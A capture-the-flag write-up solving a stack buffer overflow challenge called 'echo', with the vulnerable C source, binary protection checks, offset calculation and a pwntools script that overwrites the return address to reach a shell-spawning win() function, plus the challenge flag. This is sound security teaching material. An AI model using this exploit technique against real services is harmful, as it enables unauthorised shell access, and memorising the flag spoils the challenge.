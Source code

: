 ## Checksum

Classic BOF to overwrite RET address.

<details>
<summary>Flag:</summary> 
`greyhats{ech0_aft3r_m3_aH_jkplsno_455a214}`
</details>

## Source code Analysis:

Code for `echo.c`:

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win() {
    system("/bin/sh");
}

int main() {
    setup();

    char message[80];

    while (true) {
        printf("> ");
        memset(message, 0, 80);
        read(0, message, 0x80);
        if (!strncmp(message, "q", 2) || !strncmp(message, "q\n", 3)) {
            return 0;
        }
        printf("< %s", message);
    }
}
```

Observations:

1. There is a buffer of size 80 declared with `char message[80]`.
2. There is a `read()` call that writes to `message` with `read(0, message, 0x80)`. However, note that `0x80` is more than 80 characters - it is in fact, 8*16 characters. This gives an additional 48 characters that can be written past the buffer, which may be long enough to overwrite the return address.
3. There is a `win()` function that can be called to get a shell.
4. The function only returns when `q\x00` or `q\x0a\x00` is present at the beginning of `message`. 

## Binary Analysis:

`checksec ./echo.bin` shows the only protection enabled is the NX bit. No canary or PIE is involved.

Based on the earlier observations from source code analysis, the following must be done:

1. Find the address of `win()`.
2. Find the required offset to overwrite the return pointer.

The address of `win()` can be easily obtained in `gdb`. The address for `win()` is at `\x40\x12\x1b`.

To find the required offset, `pwntools` can be used to generate a unique sequence using `cyclic(100, n=8)`. It is first necessary to write `q\x00` to `stdin`, followed by our buffer. 

![](img/echo%20set%20ret%20breakpoint.png)
![](img/echo%20cyclic%20find.png)

The offset needed after `q\x00` is 86 more characters.

## The attack

Write the `q\x00` character, and sufficient amount (86) characters to overflow the buffer and overwrite the return address with the address of `win()`.

Also, note that due to `MOVAPS` issue in `system()` calls, the `win()` addr may need to be changed. (`\x1b` to `\x23`)

Python code to execute attack:

```python
from pwn import *
import sys

if (len(sys.argv)!=3):
    print("Usage: exploit.py <ip> <portnum>")
    exit()

ip = sys.argv[1]
portnumber = sys.argv[2]
#nc 34.143.157.242 8050
sock = remote(ip, portnumber)

buffer = bytearray()
buffer += b"q\x00" #quit command to force return
buffer += ("A"*86).encode() #chars offset
buffer += b"\x23\x12\x40\x00\x00\x00\x00\x00" # win() addr in little endian
buffer = bytes(buffer)

sock.send(buffer)
sock.interactive()
```

<details>
<summary>Flag:</summary> 
`greyhats{ech0_aft3r_m3_aH_jkplsno_455a214}`
</details>

